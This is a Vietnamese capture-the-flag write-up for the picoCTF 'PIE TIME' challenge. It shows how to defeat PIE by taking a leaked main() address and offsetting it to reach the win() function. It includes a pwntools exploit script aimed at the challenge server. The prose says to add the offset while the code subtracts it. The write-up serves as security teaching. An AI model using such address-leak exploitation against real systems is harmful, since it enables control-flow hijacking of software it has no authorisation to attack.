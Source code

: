 # PIE TIME
Challenge cung cấp file elf cùng với mã nguồn. Mục tiêu là xâm nhập vào hàm `win()` để in ra flag.

`file` check:
![alt text](image.png)
<br>
`checksec`:
![alt text](image-1.png)
<br>
Khi chạy chương trình, ta sẽ được cung cấp địa chỉ của hàm `main()`. Sau đó ta sẽ được yêu cầu nhập vào một xâu hex, ta sẽ được nhảy tới địa chỉ mà ta vừa nhập vào. Như vậy, mục tiêu là bypass cơ chế `PIE` để truy cập vào hàm `win()`, từ đó lấy được thông tin `flag` <br>
![alt text](image-4.png)
<br>
`info functions`:
![alt text](image-2.png)
<br>
Dùng `gdb` để xem địa chỉ tương đối của các hàm, ta dễ dàng tính ra offset giữa hàm `main()` và `win()` bằng `0x96`. <br>
Tới giờ thì mọi việc rất đơn giản, chỉ cần lấy địa chỉ hàm `main()` đã được cấp sẵn, sau đó cộng với `offset` là ra được địa chỉ hàm `win()`. Nhập địa chỉ này vào và ta sẽ có được flag. <br>
Ở đây tôi đã viết script để tự động hoá quá trình này:

```python
from pwn import *

host = "rescued-float.picoctf.net"
port = 52331

# p = process("./vuln")
p = remote(host, port)

offset = 0x96

p.recvuntil(b'Address of main: ', drop=True)
main_addr = p.recvuntil(b'\n', drop=True)
win_addr = int(main_addr.decode(), 16) - offset
print(main_addr)
print(hex(win_addr))

payload= hex(win_addr)

p.sendline(payload)
```
![alt text](image-3.png)